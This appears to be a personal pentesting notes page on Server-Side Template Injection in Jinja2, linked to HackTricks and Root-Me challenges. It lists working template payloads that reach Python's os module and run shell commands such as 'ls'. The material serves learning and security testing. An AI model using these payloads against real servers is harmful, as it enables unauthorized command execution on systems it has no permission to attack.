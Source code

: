 # Server-Side Template Injection (SSTI)

[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/others/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.
</div><div>

**Example for Jinja2** 🔥 ([article](
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/))

* Basic Test: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
```

If the first payload return something, then try to use the shorter one.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>